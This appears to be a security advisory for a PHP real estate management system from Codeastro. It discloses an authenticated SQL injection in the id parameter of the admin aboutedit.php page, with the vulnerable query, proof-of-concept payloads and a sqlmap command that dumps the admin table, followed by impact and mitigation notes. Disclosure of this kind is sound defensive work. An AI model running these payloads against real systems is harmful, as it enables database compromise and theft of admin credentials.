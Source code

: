 ## Vulnerability Details:
- **Application Name**: Codeastro Real Estate Management System 
- **Software Link**: [Download Link](https://codeastro.com/real-estate-management-system-in-php-with-source-code/)
- **Vendor Homepage**: [Vendor Homepage](https://codeastro.com/)
- **BuG**: Authenticated SQL Injection 
- **BUG_Author**: egsec


## About project:
- In particular, this Real Estate Management System Project in PHP focuses mainly on publishing and viewing properties. To be more precise, the system helps to keep a number of sales and rental properties.

## Vulnerability Description:
- An SQL injection vulnerability exists in the `id` parameter of the `aboutedit.php` page within the admin panel of the application. This vulnerability allows an attacker to manipulate the SQL query executed by the server by injecting malicious SQL code through the id parameter.

## Vulnerable Code Section:
- `aboutedit.php`:
```php
...
$aid = $_GET['id'];
..
$sql = "UPDATE about SET title = '{$title}' , content = '{$content}', image ='{$aimage}' WHERE id = {$aid}";
...
```
- In the code above, the `id` parameter from the `$_GET` superglobal is directly included in the SQL query without any sanitization or parameterization. This allows an attacker to inject malicious SQL code into the id parameter, potentially manipulating the query and compromising the database.

## Proof of Concept (PoC):
- put the single quote to the `id` parameter => `http://localhost/RealEstate-PHP/admin/aboutedit.php?id=10'`:

![image](https://github.com/user-attachments/assets/732ce7b0-7635-4265-bffb-682d87bd65c1)

it means that single quote `'` is executed as command by application
- use this payload (`aboutedit.php?id=11 OR 1=1`) and notice that it will dump all "About Pages":

![image](https://github.com/user-attachments/assets/1f7d14de-1e54-45dd-8ebe-ca9a3ab57e9d)

execution in the code:
```sql
UPDATE about SET title = '...', content = '...', image = '...' WHERE id = 10 OR 1=1;
```
- after detecting sql injection vulnerability, the exploitation step can be implemented by the `sqlmap`:
```python
python3.12 sqlmap.py -u "http://localhost/RealEstate-PHP/admin/aboutedit.php?id=10*" --dbms MySQL -D realestatephp -T admin --dump
```
it will dump admin data in the database:

![image](https://github.com/user-attachments/assets/8ae499df-dfed-4368-9f6d-d167dfc6cb47)

- PoC video: [link](https://www.youtube.com/watch?v=wVoNiFzQqJ0)

## Impact:
- This SQL injection vulnerability allows attackers to manipulate database queries through the id parameter. Exploiting this flaw can lead to unauthorized data modification, data leakage, privilege escalation, and, in severe cases, complete database compromise. This could result in data loss, exposure of sensitive information, and compliance violations, ultimately damaging the organization’s reputation and leading to potential legal repercussions. Immediate remediation is crucial to protect the integrity and security of the application and its data.

## Mitigation:
- Prepared Statements: The query now uses prepare() and bind_param() methods, which ensure that input values are safely bound to the query without risking SQL injection.
- Data Type Binding: bind_param() specifies the data types of the parameters (e.g., "sssi" for string, string, string, integer), adding an extra layer of security by validating input types.
- Validation and Escaping: Prepared statements handle escaping of special characters automatically, reducing the risk of injection.
